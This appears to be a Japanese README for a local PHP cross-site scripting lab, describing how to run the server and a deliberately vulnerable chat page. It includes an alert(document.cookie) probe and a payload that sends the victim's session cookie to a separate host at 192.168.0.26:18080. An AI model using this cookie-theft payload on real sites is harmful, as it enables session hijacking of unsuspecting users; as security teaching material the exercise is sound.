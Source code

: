 # PHP XSS

XSSの課題サンプルです。


## 準備

ブラウザのCookieを確認できるように、Chromeに以下のプラグインをインストールしておきます。

### Chrome Edit This Cookieプラグイン

https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=ja

## 動作確認

ローカルでサーバを起動しておきます。

```
cd xss
php -S localhost:8000
```


以下のURLにアクセスします。

http://localhost8000/index.php

ボタンを押すと数字が増えます。

> ここでセッション情報を作成しています。


続いてログインして、チャットページにアクセスします。

http://localhost8000/login.php

> chat.phpには脆弱性があります。


## セキュリティ課題：他のユーザのSESSION IDを取得するには

### 不正なコード1

```
<script>alert(document.cookie)</script>
```

### 不正なコード2

```
<script>const s = document.createElement("script"); s.src="http://192.168.0.26:18080/?cookie=" + document.cookie;document.querySelector("head").append(s);</script>
```

> ここではネットワーク上に、192.168.0.26:18080でWebサーバが起動するものとしています。サーバのアクセスログに利用者のセッションIDが表示されるでしょう。URLの部分は調整してください。
